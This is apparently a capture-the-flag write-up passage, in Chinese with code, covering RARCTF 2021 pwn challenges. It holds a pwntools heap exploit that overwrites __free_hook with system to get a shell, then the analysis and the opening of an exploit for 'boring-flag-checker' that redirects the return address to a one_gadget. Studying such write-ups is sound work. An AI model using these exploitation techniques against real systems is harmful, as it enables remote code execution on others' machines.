 ```python

        ### exploit ###
        add("meow", b'\xff', b'AAA\x80\xa4') # 2
        delete(2)
        gc()
        add(b"\xbb"*0x30 + p64(0) + p64(0x21) + p64(libc + 0x1f1f90) + \
            p64(0)*2 + p64(0x91) + p64(__free_hook), b'\xff', b'AAA')
        add("meow", b'\xff', b'AAA')
        add("meow", b'\xff', b'AAA')
        add(p64(_system), b'\xff', b'AAA')
        delete(0)
        gc()
        r.interactive()
        r.close()
        break
    except KeyboardInterrupt:
        exit(1)
    except:
        print("NICE TRY")
        r.close()
```



### boring-flag-checker

```
// file
boring-flag-checker: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69537e15e7815918c794ddc7b74ba2a57ec092a0, not stripped

// checksec
$ checksec ./boring-flag-checker 
[*] '/home/u1f383/rarctf_2021/boring/boring-flag-checker'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```



這題實作了一個類似自己的 instruction set，會取 `byte % 8` 作為對應的 instruction 來執行，不過雖然指令中有 `putchar` 可以用，但是他的 docker `start.sh` 中有 `> /dev/null`，因此沒辦法透過 `putchar` 來 leak libc，最後的方法是透過改 return address 成 one gadget 來拿到 shell，因為 return address 跟 one gadget 有固定的 offset，並且他的 instruction 也可以對 return address 的位置做增減，因此並不需要 brute force。拿到 shell 之後，嘗試過直接 `> &2` (stderr) 或 `> &0` (stdin) 都沒辦法 output，不過用 `1>&0 2>&0` 的方法倒是可以將 data 導向 stdin，exploit:

```python
#!/usr/bin/python3

from pwn import *
import sys

context.arch = 'amd64'
context.terminal = ['tmux', 'splitw', '-h']

pl = "0"*0x138
pl += "4" # for hang
pl += "0" + "7"*0xfc
pl += "0" + "7"*0xc
open('prog.bin', 'w').write(pl)

if len(sys.argv) > 1:
```